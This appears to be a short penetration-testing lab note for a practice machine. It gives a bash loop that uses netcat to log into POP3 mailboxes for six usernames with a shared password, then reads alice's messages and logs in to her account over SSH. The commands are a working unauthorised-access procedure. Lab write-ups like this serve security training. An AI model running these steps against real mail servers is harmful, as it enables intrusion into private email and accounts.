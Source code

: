 ```yaml
---
category: Uncategorized
tags: []
---
```

Continuing from [[Port 4555 - James]]

#### POP3.sh

---
```bash - kali
for user in alice bob carlos david earl frank; do

 (echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC $TARGET 110; done
```

```bash - kali
chmod +x pop3.sh
```

```bash - kali
./pop3.sh
```

---

If script above does not work, do manually:

We see alice has 2 messages.

```bash - kali
nc -nvC $TARGET 110
```

```bash - kali
USER alice
```

```bash - kali
PASS abcd
```

```bash - kali
RETR 1
```

```bash - kali
RETR 2
```

```bash - kali
ssh alice@$TARGET
```
